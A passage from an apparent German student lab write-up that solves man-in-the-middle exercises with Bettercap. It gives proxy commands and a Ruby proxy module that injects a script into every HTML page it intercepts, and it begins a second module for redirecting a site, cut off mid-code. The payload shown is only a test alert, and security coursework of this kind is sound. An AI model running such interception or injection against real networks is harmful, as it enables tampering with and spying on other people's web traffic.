 
2. Aufruf: `sudo bettercap --tcp-proxy-module module.rb --tcp-proxy-upstream TARGET_IP:TARGET_PORT`

3. Beispiel einer angefragten URL, siehe Bild:
<img src="request_url.JPG" title="stealthscan traffic" width="650">

- **Jeder Versuch, eine Website aufzurufen, soll dazu führen dass im Quelltext der angegebenen Seite ein eigenes javascript ausgeführt wird. Schreiben Sie ein Bettercap Modul basierend auf dem HTTP Proxy Modul für diesen Zweck.**

1.  Code für file module1.rb:
```rb
=begin
=end
class HackTitle < BetterCap::Proxy::HTTP::Module
  meta(
    'Name'        => 'InsertJS',
    'Description' => 'Insert custom JS to every site.',
    'Version'     => '0.0.1',
    'Author'      => "Flavio und Leon",
    'License'     => 'MIT'
  )

  def on_request( request, response )
    # is it a html page?
    if response.content_type =~ /^text\/html.*/
      BetterCap::Logger.info "Hacking http://#{request.host}#{request.path}"
      response.body += '<script> alert("Test"); </script>'
    end
  end
end
```


2. Aufruf: `sudo bettercap --proxy --proxy-module module1.rb`


- **Nutzen Sie Bettercap um Folgendes zu erreichen: Beim Aufruf einer bestimmten Webseite auf dem Laptop soll eine andere ausgeliefert werden.**

1. Mit javascript die Location verändern, Code:

```rb
=begin
=end
class HackTitle < BetterCap::Proxy::HTTP::Module
  meta(
    'Name'        => 'InsertJS',
    'Description' => 'Insert custom JS.',
    'Version'     => '0.0.1',
    'Author'      => "Flavio und Leon",
    'License'     => 'MIT'
  )

  def on_request( request, response )
    # is it a html page?
    if response.content_type =~ /^text\/html.*/
      BetterCap::Logger.info "Hacking http://#{request.host}#{request.path}"
```